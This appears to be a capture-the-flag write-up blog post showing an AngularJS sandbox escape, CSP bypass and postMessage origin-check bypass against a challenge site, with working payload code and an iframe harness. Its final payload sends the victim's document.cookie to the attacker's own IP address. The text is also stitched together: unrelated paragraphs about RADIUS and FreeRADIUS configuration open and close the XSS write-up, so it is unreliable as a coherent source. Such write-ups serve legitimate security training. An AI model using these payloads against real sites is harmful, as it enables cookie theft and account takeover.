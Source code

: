 ```yaml
---
title: STF <You shall not pass!>
author: Jason Chua (Coldspot)
date: 2020-12-08 00:00:51 +0800
categories: [CTF]
tags: [sandbox, tech, angular, xss]
toc: true
---
```



[Remote Authentication Dial-In User Service](https://en.wikipedia.org/wiki/RADIUS) also known as **`RADIUS`** is a client-server networking protocol 
used for authentication in a network. It comprises of two component for it to work which is a client and a server. The client is the device you as an
administrators wants people to authenticate while the server would serve this authenitcation request by checking the credentials with it's database.

Usually the RADIUS client is a NAS while the RADIUS server is a WIndows NT or UNIX machine.

It can be used in both Unix and Windows system to ensure AAA (Authentication, Authorization & Accounting).

It can be used in a home network (NAS) to ensure authentication when accessing the NAS.
![upload-image](/assets/img/sample/free-radius/RADIUS-Server.gif)

## Initial Testing
Accessing the web site at http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/ will lead us to a simple page shown below.
![upload-image](/assets/img/blog/you-shall-not-pass/1.png)

Attempting to broadcast a message will pop up a jQuery-based on-screen-keyboard which can be found at [github](https://github.com/chriscook/on-screen-keyboard) 
![upload-image](/assets/img/blog/you-shall-not-pass/2.png)
![upload-image](/assets/img/blog/you-shall-not-pass/3.png)

Broadcasting a message will display the broadcasted text in the embedded iframe which leads to `/broadcasts`.  
![upload-image](/assets/img/blog/you-shall-not-pass/4.png)

Entering a URL into the text box for  `Add new website to hack!` will result in the server sending a GET request to the specified URL.
![upload-image](/assets/img/blog/you-shall-not-pass/5.png)
![upload-image](/assets/img/blog/you-shall-not-pass/6.png)

`/broadcasts` contains a JavaScript file called `frame.js` which will be critical in developing of the exploit.
![upload-image](/assets/img/blog/you-shall-not-pass/7.png)

Iframes to the website can also be included in a web server on a different domain indicated by the lack of an `X-Frame-Options` header
![upload-image](/assets/img/blog/you-shall-not-pass/8.png)

## Discovering and planning of exploit

Attempting to inject JavaScript `<img/src/onerror=alert()>` in the broadcast field will result in `Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'unsafe-eval' 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.` in the console log.  

The key-points derived from the error is that the `unsafe-eval` in `script-src` directive is set to `self` which only allows the use of `eval()` in the same origin as the target site.

The initial plan of action is to post arbitrary JavaScript on `/broadcasts` page and enter the link of `/broadcasts` in the `Add new website to hack!` form. However, one issue is that the XSS is not stored. As such, having the server attempt a GET request on ‘/broadcasts` page will not execute said JavaScript. 

![upload-image](/assets/img/blog/you-shall-not-pass/9.png)

A solution to the above problem will be having the target server attempt a GET request to a web server that we own. Our web server will then include an iframe to the `/broadcasts` target URL and attempt to run the `postMessage()` function to send our payload to the `/broadcasts` endpoint which has a `receiveMessage()` function.

The payload should consist an iframe which contains a script tag that loads the angular script as well as a completed angular sandbox escape as well as CSP-bypassed code which runs arbitrary JavaScript, which had not been completed at this stage.

![upload-image](/assets/img/blog/you-shall-not-pass/10.png)

After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). 

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.

The adapted payload will have the script construct a string by reading in decimal values and converting it to ASCII from its ordinal value.

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))
```

To test the script locally, download the vulnerable Angular source code from the challenge website and place it in a `javascripts` folder. Next, create an `index.html` page in the root folder
```html
<html>
  <iframe id="xss"></iframe>
</html>

<script>
  setTimeout(function(){
    const frame = document.createElement('iframe')
    const inject = document.getElementById("xss")
    frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`
    document.body.innerHTML = frame.outerHTML.replace(" ", "/")

    inject.src = "http://localhost"
  },
  1000)
</script>
```
The result should be something like this:
![upload-image](/assets/img/blog/you-shall-not-pass/11.png)

Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser

Python 3+
```bash
python -m http.server 80
```
Python 2+
```
python -m SimpleHTTPServer 80
```

The following picture should be the outcome:
![upload-image](/assets/img/blog/you-shall-not-pass/12.png)

To make sure the exploit works for the server, add an `onload` function to inject to run `postMessage(frame.outerHTML)` and change inject.src to ` http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts`. 

```html
<html>
	<iframe id="xss"></iframe>
</html>

<script>
	
	const frame = document.createElement('iframe')
	const inject = document.getElementById("xss")
	frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`

	inject.onload = _ => {
		inject.contentWindow.postMessage(frame.outerHTML, "*")
	}

	inject.src = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts"

</script>
```

Hosting it locally and accessing it, you will realize that the page still did not work. No JavaScript alert ☹
![upload-image](/assets/img/blog/you-shall-not-pass/13.png)

There are 2 main reasons why this script did not work. First, the payload that was sent to the server contains blacklisted characters, and second, the URL did not pass the origin check on the server.

## Fixing of exploit

To fix the first issue of our payload having blacklisted character(s), we must first identify where did the blacklisted character(s) appear. We can first check the payload that was sent with the `postMessage()` function, which was `frame.outerHTML`.

![upload-image](/assets/img/blog/you-shall-not-pass/14.png)

As we can see, the payload contained a <space> character after iframe which was blocked in `/broadcasts/frame.js`. To circumvent this, I used a `.replace(“ “, “/”)` for the outerHTML.

The second problem lies with the origin check. Recall that in `/broadcasts/frame.js`, there is a check for the `event.origin`

![upload-image](/assets/img/blog/you-shall-not-pass/15.png)

This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` and will return if the check fails. As such, we need a DNS to point to our server, starting with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`. (xip)[http://xip.io/] provide a free domain name that points to any IP address. The domain name we will use is ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io`. 

## Finishing up

Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to ` a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.

Entering ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename. 

![upload-image](/assets/img/blog/you-shall-not-pass/16.png)

## Thoughts

On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`. 

The total cost of the server can be seen in the picture below:
![upload-image](/assets/img/blog/you-shall-not-pass/17.png)


More info 
>> Main configuration file is called radiusd.conf in the root folder of the freeradius file 
>> Listening, Proxy, Authentication configuration are in the sites-available/default file
